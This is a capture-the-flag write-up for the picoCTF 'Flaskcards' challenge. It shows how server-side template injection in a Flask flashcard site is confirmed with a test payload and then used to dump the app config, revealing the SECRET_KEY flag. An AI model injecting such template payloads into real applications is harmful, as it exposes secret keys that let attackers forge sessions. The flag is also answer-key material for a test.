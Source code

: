## Flaskcards - 350

### Description

> We found this fishy website for flashcards that we think may be sending secrets. Could you take a look?

### Write up

Server response is whole HTML document, which means server side rendering happens.

Then, server side template injection(SSTI) might happen.

```
{{ 2*2 }}
```

Trying to create the card consisting `{{2*2}}` results in displaying 4, which means SSTI happens.

```
{{ config }}
```

using `config` variable shows,

```
<Config {'EXPLAIN_TEMPLATE_LOADING': False, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'TESTING': False, 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'TRAP_BAD_REQUEST_ERRORS': None, 'MAX_CONTENT_LENGTH': None, 'PREFERRED_URL_SCHEME': 'http', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SECURE': False, 'BOOTSTRAP_USE_MINIFIED': True, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_BINDS': None, 'SESSION_COOKIE_DOMAIN': False, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'BOOTSTRAP_SERVE_LOCAL': False, 'SESSION_COOKIE_HTTPONLY': True, 'TEMPLATES_AUTO_RELOAD': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SERVER_NAME': None, 'SESSION_COOKIE_PATH': None, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TRAP_HTTP_EXCEPTIONS': False, 'DEBUG': False, 'SESSION_COOKIE_SAMESITE': None, 'JSONIFY_MIMETYPE': 'application/json', 'SQLALCHEMY_POOL_TIMEOUT': None, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_POOL_SIZE': None, 'PROPAGATE_EXCEPTIONS': None, 'APPLICATION_ROOT': '/', 'BOOTSTRAP_CDN_FORCE_SSL': False, 'SESSION_COOKIE_NAME': 'session', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'ENV': 'production', 'SECRET_KEY': 'picoCTF{secret_keys_to_the_kingdom_2a7bf92c}', 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'USE_X_SENDFILE': False, 'SQLALCHEMY_POOL_RECYCLE': None}>
```